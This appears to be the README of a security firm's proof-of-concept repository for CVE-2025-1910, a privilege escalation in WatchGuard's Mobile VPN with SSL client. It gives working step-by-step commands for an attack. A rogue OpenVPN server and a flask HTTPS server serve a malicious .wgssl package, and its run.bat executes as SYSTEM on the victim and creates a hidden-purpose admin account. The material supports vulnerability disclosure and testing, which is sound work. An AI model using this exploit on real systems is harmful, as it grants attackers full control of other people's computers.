





# WatchGuard Mobile VPN with SSL Client Privilege Escalation (CVE-2025-1910)

A privilege escalation vulnerability in WatchGuard's *Mobile VPN with SSL* <= `12.11.2` allows a low privileged user to execute commands as `SYSTEM` on the client. Tested with *Mobile VPN with SSL* version `12.11.2`.

For more details, see our [blog article](https://lutrasecurity.com/en/articles/cve-2025-1910-watchguard-privilege-escalation/) ([German version](https://lutrasecurity.com/articles/cve-2025-1910-watchguard-privilege-escalation/)).

## Exploitation

### Preparation on the Attacker Server

1. Start an OpenVPN server that accepts all connections:
   
```sh
sudo openvpn --config server.conf
```



2. Modify the `remote` option in `./client/client.ovpn` to point to the OpenVPN server

3. Modify `./client/run.bat` according to your liking, this script will be executed as `SYSTEM`. By default, a new admin user is created (`shinyNewAdmin`)

4. Create the malicious WatchGuard `client.wgssl` file:

```sh
cd client/

# Create checksum
md5sum client.ovpn run.bat > MD5SUM

# Pack into a .wgssl file
tar -czf ../client_exploit.wgssl client.ovpn  MD5SUM  run.bat

cd ..
```

5. Serve the malicious `client.wgssl` file via `flask`:

```sh
# Start the flask HTTPS server
sudo python3 srv.py
```



Optionally, a new certificate and key pair can be created via `openssl`:

```sh
# Create certificate and private key for the HTTPS connection
openssl req -x509 -newkey rsa:4096 -nodes -out server.crt -keyout server.key -days 365 -subj "/CN=firebox"
```

### Exploitation on the Victim Machine

Then, on the victim machine where a vulnerable version of *Mobile VPN with SSL* is installed (e.g. version `12.11.2`, [Download](https://cdn.watchguard.com/SoftwareCenter/Files/MUVPN_SSL/12_11_2/WG-MVPN-SSL_12_11_2.exe)), try to connect to the attacker server. The entered username and password do not matter:



Click *Yes* on the security alert to ignore certificate warnings:



After the connection is successfully established, the `run.bat` file is executed and the `shinyNewAdmin` user is created:



## Setup

On the attacker server you need to have Python, `openssl` and `openvpn` installed. Additionally, the `flask` Python package needs to be installed:

```sh
pip install -r requirements.txt
```

### Nix Flake

With [Nix](https://nixos.org/) installed, you can just start the development shell:

```sh
nix develop
```
